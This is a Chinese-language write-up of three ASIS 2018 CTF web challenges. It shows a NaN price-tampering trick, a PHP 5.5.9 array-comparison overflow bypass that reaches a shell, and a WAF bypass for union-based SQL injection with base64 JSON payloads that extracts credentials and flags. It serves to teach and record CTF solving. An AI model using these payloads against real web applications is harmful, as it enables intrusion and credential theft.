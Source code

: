 # Asis 2018 Writeups

# Buy flag
這題似乎是這次比賽裡最簡單的，我卻沒有做出來 :(  
首先是要**養成看request的習慣**，之前都懶惰沒有把burp開出來代理一下，可能做題會更有方向  
比賽時拿到js的代碼開始審計時就一直在找頁面上的注入點...
```js
$(document).ready(function() {
  $('#pay').click(function() {
    var coupon = btoa($('#coupon').val());  // encode string into base64
    var flags = ['fake1', 'fake2', 'asis'];
    var card = [];
    for (var i in flags) {
      if ($('#' + flags[i]).is(":checked")) {
        card.push({name:flags[i], count:1});  // 放進陣列
      }
    }
    $.ajax({
      type: 'POST',
      url :'/pay', 
      data: JSON.stringify({card: card, coupon: coupon}),
      contentType: 'application/json',
      success: function(result) {
        alert(result.result);      // you credit not enough
      }
    })
  });
})
```
以上是題目的js代碼，下面是payload：  
![buy-flag](https://github.com/shinmao/CTF-writeups/blob/master/Asis2018/screenshoot/buy-flag.png)  
`{"card":[{"name":"asis","count":1}],"coupon":""}`裡面可以修改的點只有count了，但是如果把count改0的話會出現必須大於0的警告。為了讓flag的credit降低為0，經過一番折騰終於找到了`NaN`，不被json所識別的東西，被轉成0給處理了！  

# Nice Code
這題第一關是找源碼，剛開始覺得實在太猜了，怎麼可以長在`/index.php/index.php`，賽後發現不斷發送request時`/admin/admin`的URL會不斷疊加，我想這大概就是提示吧:)  
接下來的源碼才是這題的重點：  
```php
<?php
include('oshit.php');
$g_s = ['admin','oloco'];
$__ni = $_POST['b'];
$_p = 1;
if(isset($_GET['source'])){
    highlight_file(__FILE__);
        exit;
}
if($__ni === $g_s & $__ni[0] != 'admin'){
    $__dgi = $_GET['x'];
    $__dfi = $_GET;
    foreach($__dfi as $_k_o => $_v){
        if($_k_o == $k_Jk){
            $f = 1;
        }
        if($f && strlen($__dgi)>17 && $_p == 3){
            $k_Jk($_v,$_k_o); //my shell :)
        }
        $_p++;
    }
}else{    
    echo "noob!";
}
```
在繞陣列的if時第一個scope就給卡住了，根據源碼要求，我們要給一個跟`$g_s`一樣的**順序和值都一樣**陣列，這就是強等於。這個好說：立馬給個`b[0]=admin&b[1]=oloco`的payload，可是這樣就無法滿足了第二個條件，於是就等到賽後的wp出來...  
原來是利用了php5.5.9舊版本的bug：在舊版本的library裡面，如果比較的型態為陣列，會將二者陣列的`key`值做相減並且存入一個`result`裡面。這下問題就來了，`key`相減後得到的值真的能存入`result`裡面嗎？相減後的值若大到必須要用64位元來存，這時`result`卻還是32位元的數，**integer overflow**就這樣發生了!  
這題第一個scope利用的正是這個bug，於是我在post中隨便構造了個32位元無法存的整數：`b[68719476736]=admin&b[1]=oloco`  
接下來的關卡就簡單多了，我們先不用管`$k_Jk`是什麼鬼，看到第二個scope：`strlen($__dgi)>17 && $_p==3`，`x`的要求是大於17個字的長度，要讓`$_p==3`我們要讓整個迴圈跑三次，也就是`$_GET`裡面要有三個參數。  
於是除了胡亂補上一個參數，剩下一個我就在裡面構造了shell  
這邊有個小問題，關於`$k_Jk`是在做啥我無從猜測，所以只能依照他的提示來試  
![](https://github.com/shinmao/CTF-writeups/blob/master/Asis2018/screenshoot/nice_code.png)  
好一個藏在`/var/flag`的`ASIS{f52c5a0cf980887bdac6ccaebac0e8428bfb8b83}`  
這邊我特別推薦這部教學影片 [Vlog #003: old PHP and array===array](https://www.youtube.com/watch?v=8fGigwN_E-U)  
以下是PHP的修補紀錄 [PHP #69892](https://bugs.php.net/bug.php?id=69892)  

# Good WAF
題目一開始出現的提示`GET news by object (base64(json_object)) parameter`  
提示讓我們傳送名叫`object`的`base64(json_object)`  
於是我先傳送個`object={"1":"1"}`看看，base64加密後是`object=eyIxIjoiMSJ9`，頁面返回結果是：  
```php
Notice: Undefined property: stdClass::$data in /var/www/html/index.php on line 37
```
於是我就把payload換成`object={"data":"1"}`，base64加密後是`object=eyJkYXRhIjoiMSJ9`，頁面返回結果是`News ID: 1`。  
這時候就想來個**sql injection**，把payload換成`object={"data":"1'"}`，頁面就返回了WAF生人勿近的頁面 XD  
比賽的時候沒有成功繞過，賽後才看了writeup，發現有人用`json_beautifier`就給繞過了！核心觀念就是換行，開始用**union based**試...  
union based需要同樣的column數，所以我先用`order by`來確認一下  
```php
object={
"data":"' order by 3#"
}
// object=ewoiZGF0YSI6ICInIG9yZGVyIGJ5IDMjIgp9
```
當我新增到3時，頁面出現了`Notice: Trying to get property of non-object in /var/www/html/index.php on line 45
News not found.`，所以確認了payload樣子類似`union select 1,xxxxx from`，接下來的步驟就很簡單了  
在`credentials`的表中找到唯一的使用者`valid_user`：`md5(password)`，在`access_logs`的表中找到用`/?action=log-in`的登入方式  
最後一步拿flag http://167.99.12.110/?action=log-in&credentials[0]=valid_user&credentials[1]=password  
flag: `ASIS{e279aaf1780c798e55477a7afc7b2b18}`  

非預期解法：`.index.php.swp`直接拿源碼


## Reference
* [Vlog #003: old PHP and array===array](https://www.youtube.com/watch?v=8fGigwN_E-U)  
* [PHP #69892](https://bugs.php.net/bug.php?id=69892)
